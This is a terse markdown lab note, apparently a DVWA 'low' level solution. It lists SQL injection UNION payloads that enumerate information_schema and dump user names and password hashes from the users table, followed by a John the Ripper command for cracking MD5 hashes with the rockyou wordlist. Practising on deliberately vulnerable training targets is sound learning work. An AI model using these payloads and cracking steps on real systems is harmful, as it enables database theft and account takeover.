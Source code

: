 # LOW
```SQL
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' #
%' or '0'='0' union select user, password from dvwa.users #
```

https://www.tunnelsup.com/hash-analyzer/

`john --wordlist=rockyou.txt --format=Raw-MD5 hashes.txt`

